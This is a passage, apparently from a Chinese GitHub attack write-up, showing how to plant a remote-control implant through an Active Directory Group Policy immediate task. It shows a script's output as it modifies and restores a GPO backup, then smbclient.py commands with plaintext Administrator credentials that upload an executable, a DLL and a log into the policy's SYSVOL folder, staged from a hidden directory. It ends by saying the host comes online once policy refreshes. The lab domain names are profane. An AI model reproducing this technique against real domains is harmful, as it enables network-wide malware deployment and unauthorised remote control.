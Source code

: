脚本输出如下：

```bash
[*] start import module
[+] module import complete
[*] retrive backup GUID and GPO GUID
[+] calculated base DN:  dc=mother,dc=fucker
[+] backup_guid:                 99D9C1C9-CAFA-4877-9162-06829DD17E6C
[+] gpo_guid:                    2E43D0FD-9822-4B18-B99B-C9121934CBBD
[+] gpo_display_name:            fuck_your_mother
[+] retrive completed
[*] start changing GPO backup files
[*] Sweet dest path:
         \\WIN-JQ0277IA4MA.mother.fucker\sysvol\mother.fucker\Policies\{2E43D0FD-9822-4B18-B99B-C9121934CBBD}
[+] GPO content modify complete
[*] restore GPO with modified folder
[+] BackupPath:                  C:\users\public\downloads\{99D9C1C9-CAFA-4877-9162-06829DD17E6C}
[+] GPO backup folder removed
[+] finished! enjoy!
```

根据输出我们可以确定远控文件要拷贝到的目标路径

```
\\WIN-JQ0277IA4MA.mother.fucker\sysvol\mother.fucker\Policies\{2E43D0FD-9822-4B18-B99B-C9121934CBBD}
```

使用`smbclient.py`进行文件的上传

```bash
└─$ smbclient.py mother.fucker/Administrator:qwe123...@192.168.25.154                      
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# use sysvol
# cd mother.fucker/Policies/{2E43D0FD-9822-4B18-B99B-C9121934CBBD}
# lcd /tmp/.X11-unix
/tmp/.X11-unix
# put SNAC.EXE
# put SymantecNetworkAccess.log
# put WGXMAN.DLL
```



等待目标主机更新组策略，即可上线：

![1642409005686](https://github.com/wqreytuk/AD_GPO_EXEC/blob/main/005-GPP%20immediate%20task.assets/1642409005686.png)
